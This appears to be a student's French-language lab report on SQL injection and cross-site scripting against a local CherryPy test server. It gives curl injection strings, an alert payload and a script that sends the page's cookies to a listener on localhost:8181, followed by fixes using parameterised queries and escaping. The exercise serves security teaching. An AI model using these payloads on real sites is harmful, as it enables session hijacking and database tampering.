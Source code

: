 # Rendu "Injection"

## Binome

AMEVIGBE Yao Isidore
Nom, Prénom, email: ___


## Question 1

* Quel est ce mécanisme?
Ce mécanisme est la vérification de la chaîne de caractères à insérer par une regex. 
qui vérifie si la chaîne de caractère ne contient pas de caractères spéciaux.

* Est-il efficace? Pourquoi? 

Non ! car une injection peut probablement contenir des conditions. 
Par ailleurs sur le navigateur web on peut toute fois désactiver le javascript pour faire des injections **sql**

## Question 2

* Votre commande curl

Voici la commande curl pour pouvoir envoyer des requêtes en POST: 

```sh 
$ curl -X POST  -d "chaine=<la chaine à insérer>&submit=OK"  http://localhost:8080/
```

Exemple d'insertion
===================

```sh 
$ curl -X POST  -d "chaine=2 ; SELECT * from &submit=OK"  http://localhost:8080/
```

Insertion
=========

```sh 
$ <p>
Liste des chaines actuellement insérées:
<ul>
<li>isi envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>cat envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res80 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li>res90 envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>res2 envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li> envoye par: 127.0.0.1</li>
<li>2  envoye par: 127.0.0.1</li>

``` 

On voit avec la dernière ligne que la donnée a bien été inséré.

## Question 3

* Votre commande curl qui va permettre de rajouter une entree en mettant un contenu arbitraire dans le champ 'who'

```sh 
$ curl -X POST  -d "chaine=hack','192.152.145.18') #"  http://localhost:8080/
```

* Expliquez comment obtenir des informations sur une autre table
Pour obtenir des informations sur une autre table on peut réaliser cette commande en la combinant avec une autre en utilisant **AND** puisque la première requête sera exécuté. Si on avait utilisé un **OR** cela ne fonctionneraît pas.

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

Implémentation 
==============

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (post["chaine"], cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(row[0] + " envoye par: " + row[1])

        cursor.close()
        return '''
```

Explication
===========

Pour la corriger on a utilisé une requête paramétré composé de deux chaînes de caractères. 
Le premier spécifiant la colonne **post["chaine"]** et la colonne **cherrypy.request.remote.ip**

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```sh 
$ curl -X POST  -d "chaine=<script>alert(\"hello\")</script>"  http://localhost:8080/
```

* Commande curl pour lire les cookies
```sh 
$ curl -X POST  -d "chaine=<script>document.location=\"http://localhost:8181?chaine=\".concat(document.cookie)</script>"  http://localhost:8080/
```

Pour récupérer les cookies il suffit de lancer la commande curl vers un serveur sur le port 8181. On peut même evaluer le cookie et lui passer cela en paramètre.
## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.

Implémentation
==============

Pour eviter les failles **xss** il faut échapper les données lors de l'insertions et lors de l'affichage. 
Lors de l'affichage car c'est en ce moment que les données sont exécutés par le navigateur et ainsi eviter que ces données soient transmises aux malveillants. 

Pour l'insertion un code javascript peut eventuellement exécuter des codes malveillants nottament pour supprimer des données dans la BDD en réalisant des requêtes.

```py 
    def index(self, **post):
        cherrypy.response.cookie["ExempleCookie"] = "Valeur du cookie"
        cursor = self.conn.cursor()
        if cherrypy.request.method == "POST":
            requete = "INSERT INTO chaines (txt,who) VALUES(%s,%s)"
            values = (escape(post["chaine"]), cherrypy.request.remote.ip)
            print("req: [" + requete + "]")
            cursor.execute(requete, values)
            self.conn.commit()

        chaines = []
        cursor.execute("SELECT txt,who FROM chaines");
        for row in cursor.fetchall():
            chaines.append(escape(row[0]) + " envoye par: " + row[1])

        cursor.close()
        return '''
```
